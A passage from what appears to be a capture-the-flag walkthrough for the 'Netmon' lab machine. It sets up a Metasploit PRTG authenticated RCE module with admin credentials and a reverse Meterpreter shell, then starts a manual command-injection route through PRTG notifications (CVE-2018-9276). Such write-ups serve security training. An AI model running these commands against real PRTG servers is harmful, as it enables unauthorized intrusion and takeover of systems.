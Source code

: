 ```
   2    \_ target: Windows_CMDStager                              .                .          .      .
   3  exploit/windows/http/prtg_authenticated_rce                 2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE
```

We select the `exploit/windows/http/prtg_authenticated_rce` module to exploit the vulnerable system and run it after setting the parameters.

```
use exploit/windows/http/prtg_authenticated_rce
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
set rhosts 10.10.10.152
set lhost tun0
[lport default 4444]
```

We gain access to a `Meterpreter` session, with the system’s user context.

[meterpreter](../assets/Netmon/screenshot.meterpreter.png)

The root flag is located in `C:\Users\Administrator\Desktop`.

### Alternate Way

We turn our attention to the PRTG version (18.1.37.13946) and check for known vulnerabilities. This version is vulnerable to OS command injection as documented in [CVE-2018-9276](https://nvd.nist.gov/vuln/detail/CVE-2018-9276).

According to NIST, an attacker who has access to the PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in `sensor` or `notification` management scenarios.

Looking through `sensor`, we could not find code execution and move on to `notification`.

Click on Setup > Account Settings > Notifications.

![screenshot5](../assets/Netmon/screenshot.notif.png)

Now hover over the (+) plus icon on the far right and then click “Add new notification”.

![screenshot6](../assets/Netmon/screenshot.notif.add.png.png)

Keep the default fields and scroll down to the "Execute Program" section. Select the `ps1` option for Program File and add a new user via a command in the Parameter field.
